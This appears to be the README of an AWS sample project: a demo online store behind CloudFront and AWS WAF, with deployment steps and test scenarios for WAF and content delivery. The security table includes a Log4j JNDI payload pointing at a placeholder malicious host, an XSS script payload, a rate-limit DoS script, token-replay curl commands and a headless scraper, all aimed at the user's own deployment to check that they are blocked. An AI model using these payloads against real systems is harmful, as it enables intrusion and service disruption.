


# Fast & secure e-commerce demo
This project is a fictitious online retail store that is accelerated by Amazon CloudFront and protected with AWS WAF, both part of AWS Edge Services. It's an educational project, that helps developers in understanding the capabilities of AWS Edge Services. It can be used as a demo tool, and as a testing sandbox.

> [!NOTE]
> This demo serves as a reference or starting point for development purposes. Developers are responsible for thoroughly evaluating and modifying their code to ensure compliance with established security best practices and guidelines before deploying it in production.
> 
> This repository provides a demonstration of specific WAF functionalities using illustrative test cases. It is crucial to understand that **this is not a production-ready solution** and should not be  utilized in production environments without proper testing and validation. For any real-world application, it is necessary to engage with your security team to design and implement robust WAF configurations that align with your organization's specific security requirements. Please be advised that the CloudFront distribution used in this demo is **intentionally configured to be publicly accessible for demonstration purposes**. Exercise caution when adapting or extending this code for production use.

<!--  -->

In this page, you can find details on the architecture of the application, how to deploy it, and the different suggested test scenarios. Note that these test scenarios cover a small percentage of the capabilities offered by AWS Edge Services.


# How to deploy

Follow these steps in your command line to deploy the application with CDK, using the region and account information configured in your AWS CLI. It takes around 10 minutes.

```javascript
git clone https://github.com/aws-samples/fast-secure-ecommerce-demo.git
cd fast-secure-ecommerce-demo/store-infra
npm install
cdk deploy
```

As prerequisite, you need to have CDK installed ```npm install -g aws-cdk``` and bootstraped ```cdk bootstrap```. 

Note the generated CloudFront domain name, and the load balancer domain name, as you will use them in the test scenarios.

# Architecture

The backend of the application includes the following components:
* A nextJS based SSR application hosted on EC2 instances behind an Application Load Balancer.
* DynamoDB tables to store user and product information.
* S3 buckets to store original and transformed images.
* A Lamnda function that is responsible for transforming images.

The backend is exposed to the internet through a CloudFront distribution and protected with AWS WAF. CloudFront Functions coupled with KeyValueStore, implement edge logic such as: A/B testing, redirections, image format detection, etc..




# Edge security test scenarios

The following test scenarios cover different kind of threats that can be mitigated using AWS WAF. Replace the example CloudFront domain name (xxxxxxxx.cloudfront.net) in the scenarios with the actual one generated in the CDK deployment output. If you would like to dive into the WAF log record for a specific request, navigate in the AWS Console to the deployed WAF WebACL, and run the following query in CloudWatch insights tab using the request id:
```
fields @timestamp, @message
| sort @timestamp desc
| filter httpRequest.requestId = 'UW9-AA4dRZVxrLJeVEWIoXt-8mZ98b7gfYH-NhXJhgwIG76HymvrOw=='
| limit 20
```

| Test scenario | Threat category | How to test  | 
|:------------- |:--------------- | :----------- |
| Verify origin cloaking |**Protection bypass**| The Load balancer's security group is configured with CloudFront prefixlist, and the IP of the developer machine that deployed the CDK stack. On this developer machine, run the following curl command, and verify it works. Then go to Cloudshell in the AWS Console, and run the same command, and verify that the TCP connection was refused. <br/> ```curl -I http://xxxxxxxxx.xxxxx.elb.amazonaws.com```| 
| Exploit Log4j CVE | **CVE exploit** | Load the following page with malicious payload, and verify that the request is blocked with 403 error code: <br/>  ```https://xxxxxxxx.cloudfront.net/product/${jndi:ldap://malicious.domain.com/}``` |
| Post malicious XSS payload | **Cross site scripting** | Log in (user: Joud, pwd: demo), then load any product page to post the following comment with an XSS payload, and verify that the request is blocked with 403 error code: <br/> ```<script><alert>Hello></alert></script>``` |
| Rate limit with 400 threshold | **Denial of Service (DoS)** | Go to Cloudshell in the AWS Console, and run the following commands, to start a DoS from a single IP. Verify that within seconds of serving a 404 Not found from the backend, WAF starts responding with a 202 javascript challenge, then simply blocking with 403 response code after around 20 seconds of when the 400 request throshold was breached. <br/> ```wget https://raw.githubusercontent.com/aws-samples/fast-secure-ecommerce-demo/main/scripts/rate-limit-test.sh``` <br/> ```bash rate-limit-test.sh https://xxxxxxxx.cloudfront.net/non_existing_page 400```|
| Malicious IPs | **Distributed Denial of Service (DDoS)** | To overcome rate limits, attackers can use a large number of IPs to launch DDoS attacks. AWS curates IP lists based on their reputation, and provide them as WAF Managed rules. In this example, we challenge requests coming from am proxy server IPs (VPNs, Tor, etc..) with a CAPTCHA. To test it, load the homepage using a proxy website (e.g. https://www.blockaway.net), and verify that the page is challenged with a CAPTCHA. Note that this test might not succeed everytime, since proxy operators constantly evolve their IPs.|
| Allow social media bots | **Inadvertly block desired bots** | Paste the home page link in one of the solial network (e.g. Linkedin) and verify that a preview has been correcrtly showed |
| User-Agent classification | **Web scraping using HTTP libraries** | Go to Cloudshell in the AWS Console, and run the following ```curl``` command. Verify that WAF detects this HTTP library and blocks the request: <br/> ```curl -I https://xxxxxxxx.cloudfront.net/```|
| Fake user-agent detection | **Web scraping using HTTP libraries** | To detect HTTP libraries lie ```curl``` with a fake user-agent header, a javascript challenge is used, detecting such libraries with no javascript exdcution capabilities. The javascript challenge is exectued in two different ways. The first way, is asynchronously, when a page is loaded using WAF javscript SDK. Load the home page, and in the developer tools, check the interactions between the SDK and AWS WAF. The interactions include downloading the javascript challenge, submiting the challenge result, and acquiring a session token. The second way is enforced synchronously when multiple requests are received from the same IP, using a silent javascript challenge with 202 response code. The previous DoS test scenario demonstrates it.  |
| WAF token replay | **Web scraping using HTTP libraries** | Attackers can acquire the javascript challenge token using a brower, then use it with HTTP libraries across different IPs. To simulate it, first load the home page in a browser, and copy the token from the ```aws-waf-token``` cookie. Then run the following command in AWS Cloudshell in multiple AWS regions, after replacing the WAF cookie with the token value . Verify that the request is blocked with 403 after a few 200 OK successful token replay attempts. <br/> ```curl -I --include --silent https://xxxxxxxx.cloudfront.net/ -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' -H 'Cookie: aws-waf-token=YOUR_TOKEN_VALUE'```|
| Headless chrome detection | **Web scraping using automation frameworks** | Launch a headless chrome based on Selenium using the following command on your machine, and make sure that the scraper is not able to parse product page info. You need to have Chrome browser installed. <br/> ```cd scripts``` <br/> ```npm install selenium-webdriver``` <br/> ```node selenium.js https://xxxxxxxx.cloudfront.net/```|
| Calling APIs without token | **Account Takeover** | Unlike for the home page, the WAF WebACL, do not accept any request for the APIs endpoint wihtout a WAF token acquired using the javascript challenge. To test this scenario, run the following curl and verify that WAF returns a 202 challenge: <br/> ```curl -d '{username: "Joe", password: "hackedpwd"}' -H "Content-Type: application/json" -X POST https://xxxxxxxx.cloudfront.net/api/login --include --silent -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36' \| grep -e HTTP/ -e x-amzn-waf-action``` |
| Stolen credential detection | **Account Takeover** | Use the following test _stolen credentials_ and verify that api call is blocked with 403 response code <br/> ```WAF_TEST_CREDENTIAL@wafexample.com``` <br/> ```WAF_TEST_CREDENTIAL_PASSWORD``` |
| Password traversal detection | **Account Takeover** | Using the same username, e.g. joe, and login with different passwords tens of times until the api call is blocked with 403 response code |
| Volumetric account creation within a session | **Fake Account Creation** | Create mulitple accounts, and verify that a the api call is blocked with 403 response code after a few account creation attempts |


# Content delivery test scenarios

Load the website in your browser, and open the Chrome developer tools to understand how content is optimized when delivered through CloudFront.

 Test scenario  | How to test | 
:--------------- | :-------------|
| **HTTP/3** | Verify that the page is loaded using HTTP/3, while the backend only supports HTTP/2. | 
| **Caching** | Verify that static page resources are served from CloudFront cache, by checking the following header ```X-Cache: Hit from cloudfront```. If the result is a miss, reload the page and verify again. Verify that the html for the home page also results in a cache hit, when no user is logged. Check the ```stale-while-revalidate``` directive in the ```Cache-Control``` header. Log in (user: Joud, pwd: demo), reload the home page, and verify that the logged experience is not cached.|
| **Dynamic acceleration** | When the user is logged in, the home page is served without caching. Log in (user: Joud, pwd: demo), load the home page multiple times, and verify the Server-Timing header value for the html. After several attempts, the ```cdn-upstream-connect``` value will be zero, indicating that the request reused a TCP connection from the Edge to the backend, which reduce the overall page load latency. |
| **Text compression** | Look for a text based file, such as a javascript .js file. Verify that the ```Content-Encoding``` contains the value ```br``` indicating that the file was compressed by CloudFront using Brotli compression. Check the transfered file size, then download it, and check its size on disk. Compare both sizes (e.g. 43Kb vs 154kb). | 
| **Image optimization** | Using the load balancer domain name, load the home page, check one of the product images, and verify that the ```Content-Type``` contains the value ```image/jpeg```. Check the image size. Do the same this time using the Cloudfront domain name, and verify that the ```Content-Type``` contains the value ```image/webp``` indicating that the image was compressed using the Image optimization component to Webp format. It will also be resized based on the size parameter sent by the NextJS <Image> component, that automatically selects the optimal image size based on the viewport. Check the image size, and compare it with the previous one. |
| **Lazy loading** | Load the home page, and verify that some images are only loaded when you scroll down.  NextJS <Image> component only fetches images when they get near the visible part of the viewport, to reduce the amount of downloaded data. | 
| **Real User Monitoring** |  Load a page, and check the telemetry sent to CloudWatch RUM. Go to CloudWatch RUM console and analyze the Core WebVitals of pages. | 
| **A/B testing** | Load the home page, and verify that your session was assigned a ```user-segment``` cookie. This cookie is used to apply A/B testing experiments differently across user segments, in a sticky way. Create an experiment that includes your assigned user segment (e.g. 4), and your country code (e.g. AE for UAE) in the deployed KeyValueStore in the CloudFront Console, using the following config. Wait for a few seconds, and reload the home page. Validate that you are receicing the _v2_ version that includes a _Buy_ button. <br/> Key: ```/``` <br/> Value: ```{ "segments": "1,2,3", "countries": "AE,FR", "rules": { "rewrite_path": "/index-v2" }}```| 
| **HTTP redirection** | Load the following non existing campaign page: ```/MassiveSales2022```. Verify that 404 Not found is returned. Add the following http redirection rule to the deployed KeyValueStore in the CloudFront console, then validate that you are redirected to home page when loading this old campaign page <br/> Key: ```/MassiveSales2022``` <br/> Value: ```{ "rules": { "redirect": "/sales" }}```| 
| **Waiting room** | You will activate a waiting room for the cart page. Only logged premium users can actually access the cart page, the rest are showed the waiting room. To do this, add the following entry in the deployed KeyValueStore in the CloudFront console. Log with default user (user: Joud, pwd: demo) and verify that you have access to the cart page. Register a new non-premium user in a different browser, and verify that they do not have access to the cart. <br/> Key: ```/cart``` <br/> Value: ```{ "rules": { "waitroom": { "location": "/waitroom" } } }```|
| **Speculation API** | The home page uses the specualtion rules API of the browser, to prerender product pages on whic the mouse hovers for over 200 ms. Go to the speculation rules tab in the Chrome developer tools, and check how a product page is pre-rendered when the mouse hovers over  |

# Request flow



# Advanced

If you want to test the application locally, change the cdk deploy command to 
```
cdk deploy --outputs-file ../store-app/aws-backend-config.json
```
In the generated file, update the format to match the expected one by the application (to be detailed soon), then run the following commands:
```
cd store-app
npm install
npm run dev
```

The application will be available on localhost's port 3000.

Current gotchas: 
* Updating the stack will not update the web app installed on EC2. You will need to terminate the EC2 instances in the ASG, allowing the ASG to launch new ones.
* Since a CloudFront WAF WebACL must be deployed in us-east-1, regardless of the region of the CDK stack, we have to create a custom resource to deploy it. If you update the WAF configuration in CDK, it wont be reflected in a new CDK deploy, for the same reason.
